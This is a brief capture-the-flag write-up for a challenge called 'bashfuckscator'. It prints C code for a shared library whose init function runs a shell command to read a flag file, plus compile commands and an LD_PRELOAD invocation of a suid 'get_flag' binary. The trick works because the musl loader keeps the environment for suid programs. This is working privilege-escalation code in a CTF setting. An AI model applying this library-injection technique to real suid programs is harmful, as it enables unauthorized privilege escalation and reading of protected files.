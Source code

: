 bashfuckscator
==============

Create a file `/dev/tmp/a.c` with the following content:
```C
#include <stdlib.h>
void _init() { unsetenv("LD_PRELOAD"); system("cat /flag.txt");  }
```

And compile it:
```bash
$ cd /dev/tmp; gcc -c -o a.o a.c
$ cd /dev/tmp; ld -shared -o liba.so a.o
```

Now execute the `get_flag` binary:
```bash
$ LD_PRELOAD=/dev/tmp/liba.so ./get_flag
```

This is possible since the `musl` loader does not clear the environment on `suid`.

